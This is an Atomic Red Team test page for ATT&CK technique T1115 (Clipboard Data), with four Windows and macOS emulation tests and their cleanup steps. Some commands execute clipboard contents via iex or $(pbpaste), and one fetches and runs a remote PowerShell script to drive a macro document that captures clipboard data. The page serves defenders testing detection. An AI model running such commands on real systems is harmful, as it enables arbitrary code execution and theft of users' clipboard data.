 # T1115 - Clipboard Data
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1115)
<blockquote>Adversaries may collect data stored in the clipboard from users copying information within or between applications. 

In Windows, Applications can access clipboard data by using the Windows API.(Citation: MSDN Clipboard) OSX provides a native command, <code>pbpaste</code>, to grab clipboard contents.(Citation: Operating with EmPyre)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Utilize Clipboard to store or execute commands from](#atomic-test-1---utilize-clipboard-to-store-or-execute-commands-from)

- [Atomic Test #2 - Execute Commands from Clipboard using PowerShell](#atomic-test-2---execute-commands-from-clipboard-using-powershell)

- [Atomic Test #3 - Execute commands from clipboard](#atomic-test-3---execute-commands-from-clipboard)

- [Atomic Test #4 - Collect Clipboard Data via VBA](#atomic-test-4---collect-clipboard-data-via-vba)


<br/>

## Atomic Test #1 - Utilize Clipboard to store or execute commands from
Add data to clipboard to copy off or execute commands from.

**Supported Platforms:** Windows


**auto_generated_guid:** 0cd14633-58d4-4422-9ede-daa2c9474ae7






#### Attack Commands: Run with `command_prompt`! 


```cmd
dir | clip
echo "T1115" > %temp%\T1115.txt
clip < %temp%\T1115.txt
```

#### Cleanup Commands:
```cmd
del %temp%\T1115.txt >nul 2>&1
```





<br/>
<br/>

## Atomic Test #2 - Execute Commands from Clipboard using PowerShell
Utilize PowerShell to echo a command to clipboard and execute it

**Supported Platforms:** Windows


**auto_generated_guid:** d6dc21af-bec9-4152-be86-326b6babd416






#### Attack Commands: Run with `powershell`! 


```powershell
echo Get-Process | clip
Get-Clipboard | iex
```






<br/>
<br/>

## Atomic Test #3 - Execute commands from clipboard
Echo a command to clipboard and execute it

**Supported Platforms:** macOS


**auto_generated_guid:** 1ac2247f-65f8-4051-b51f-b0ccdfaaa5ff






#### Attack Commands: Run with `bash`! 


```bash
echo ifconfig | pbcopy
$(pbpaste)
```






<br/>
<br/>

## Atomic Test #4 - Collect Clipboard Data via VBA
This module copies the data stored in the user's clipboard and writes it to a file, $env:TEMP\atomic_T1115_clipboard_data.txt

**Supported Platforms:** Windows


**auto_generated_guid:** 9c8d5a72-9c98-48d3-b9bf-da2cc43bdf52





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| ms_product | Maldoc application Word | String | Word|


#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Set-Clipboard -value "Atomic T1115 Test, grab data from clipboard via VBA"
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroFile "PathToAtomicsFolder\T1115\src\T1115-macrocode.txt" -officeProduct "Word" -sub "GetClipboard"
```

#### Cleanup Commands:
```powershell
Remove-Item "$env:TEMP\atomic_T1115_clipboard_data.txt" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft #{ms_product} must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
```




<br/>
